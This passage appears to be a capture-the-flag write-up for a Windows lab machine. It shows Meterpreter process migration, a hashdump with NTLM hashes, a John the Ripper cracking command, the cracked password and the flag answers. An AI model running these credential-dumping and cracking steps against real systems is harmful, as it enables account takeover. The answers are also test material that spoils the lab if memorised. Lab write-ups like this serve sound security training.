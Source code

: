 ```
 2992  552   conhost.exe      x64   0        NT AUTHORITY\SYSTEM        C:\Windows\system32\conho
                                                                        st.exe
 3004  1292  cmd.exe          x64   0        NT AUTHORITY\SYSTEM        C:\Windows\System32\cmd.e
                                                                        xe
 3036  2456  mscorsvw.exe     x86   0        NT AUTHORITY\SYSTEM        C:\Windows\Microsoft.NET\
                                                                        Framework\v4.0.30319\msco
                                                                        rsvw.exe
```
Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. 

```bash
migrate 3004
```
Tried that but it died and failed to return ps. I needed a new box!

# Task 4

Q. What is the name of the non-default user? 
A. jon

move to session 2 and run hashdump
```bash
session 2
hashdump
```
results
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```


Q. What is the cracked password?
A. alqfna22

save the jon hash to a local file on my host called hash, then use john the ripper

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt -format=NT
```
# Task 5

Q. flag 1 - This flag can be found at the system root. 
A. flag{access_the_machine}
```bash
dir \ flag1.txt /s
type c:\flag1.txt
```
Q. flag2 - This flag can be found at the location where passwords are stored within Windows
A.flag{sam_database_elevated_access}

a quick google found the folder c:\windows\system32\config
then just type the file out
```bash
type c:\windows\system32\config\flag2.txt
```
